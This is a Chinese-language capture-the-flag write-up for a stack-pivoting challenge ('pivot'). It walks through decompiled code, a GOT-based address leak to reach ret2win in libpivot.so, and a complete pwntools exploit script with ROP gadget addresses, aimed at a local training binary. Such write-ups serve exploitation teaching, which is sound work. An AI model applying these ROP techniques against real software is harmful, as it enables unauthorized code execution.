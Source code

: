 ```c
{
  char s; // [rsp+10h] [rbp-20h]

  memset(&s, 0, 0x20uLL);
  puts("Call ret2win() from libpivot.so");
  printf("The Old Gods kindly bestow upon you a place to pivot: %p\n", a1);
  puts("Send your second chain now and it will land there");
  printf("> ");
  fgets(a1, 256, stdin);
  puts("Now kindly send your stack smash");
  printf("> ", 256LL);
  return fgets(&s, 64, stdin);
}
```

注意到这里的 `a1` 会被打印出来，随后被 `fgets` 写入。我们想尝试让 `rsp` 指向 `a1` 来改变 `rsp` 位置。这个比较简单，只需要 gadget：

```
pop rax; ret
xchg rax, rsp; ret
```

通过 `pop rax` 把 `a1` 的地址写入 `rax`，然后交换，那么 `rsp` 就指向了 `a1`，我们完成了 `stack pivoting`。

这题容易搞混的地方是，我们的思路是先填 `first stage` 进行 `stack pivoting`（也就是上述过程），再填 `second stage` 调用 `ret2win`，但是程序中输入的顺序是相反的。

下面我们来看 `second stage`，也就是考虑我们要先输入什么。我们最终肯定是想返回到 `ret2win`，但是我们不知道它的地址。`checksec libpivot.so` 可以发现还开启了 ASLR。因此可以想到这里 `foothold_function` 就是用来定位用的。

首先（通过 `.plt`）调用一次 `foothold_function` 更新其 `.got.plt`，随后将**这个 `.got.plt` 项的地址** `pop` 给 `rax`，接着读取 `[rax]` 也就是**这个 `.got.plt` 项的内容**，即得到了 `foothold_function` 真实地址。

最后，可以根据它在 `libpivot.so` 中到 `ret2win` 的相对偏移来拿到 `ret2win` 的真实地址。这个相对偏移可以通过 `nm libpivot.so` 得到：前者在 `0x0970`，后者在 `0x0abe`，相差 `0x14e`。最后我们还是利用 gadget 计算出 `ret2win` 的真实地址后，`call` 一下即可。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./pivot')
elf = ELF('./pivot')

p.recvuntil('pivot:')
a1 = int(p.recvuntil('\n'), 16)
print hex(a1)

foothold_plt = elf.plt['foothold_function']
foothold_got = elf.got['foothold_function']
pop_rax_ret = 0x400b00
mov_rax_rax = 0x400b05
pop_rbp_ret = 0x400900
add_rax_rbp = 0x400b09
call_rax = 0x40098e

payload = flat([foothold_plt, pop_rax_ret, foothold_got, mov_rax_rax, pop_rbp_ret, 0x14e, add_rax_rbp, call_rax])

p.recvuntil('>')
p.sendline(payload)

xchg_rax_rsp = 0x400b02
payload = flat(['a'*0x28, pop_rax_ret, a1, xchg_rax_rsp])

p.recvuntil('>')
p.sendline(payload)
```